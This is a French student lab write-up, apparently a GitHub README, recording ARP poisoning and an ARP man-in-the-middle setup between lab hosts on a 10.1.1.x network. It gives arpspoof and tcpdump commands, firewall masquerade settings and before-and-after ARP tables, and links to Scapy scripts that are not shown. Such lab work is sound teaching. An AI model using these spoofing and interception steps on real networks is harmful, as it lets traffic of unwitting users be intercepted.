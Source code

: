 # 🌞 Empoisonnez la table ARP de node2.tp1.my  
Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```
Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```

Ouvrir un autre terminal dans node1.tp1.my  
```bash
sudo arpspoof -t 10.1.1.101 10.1.1.253
```

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  
🦈 Capture ARP Spoof --> [arp_spoof_1.pcap](arp_spoof_1.pcap)  


# 🌞 Ecrire un script Scapy qui fait le travail de arpspoof  
Le [script python](./arp_spoof.py)  
🦈 Capture ARP Spoof Scapy --> [arp_spoof_2.pcap](./arp_spoof_2.pcap)  

# 🌞 Mettre en place un MITM ARP  
```bash
sudo firewall-cmd --add-masquerade --permanent  
sudo firewall-cmd --reload  
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```  

Ouvrir un terminal dans node1.tp1.my  
Le [script python](./arp_mitm_1.py) 
🦈 Capture ARP Spoof --> [arp_mitm_1.pcap](./arp_mitm_1.pcap)  
  
```bash
sudo python arp_mitm_1.py
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```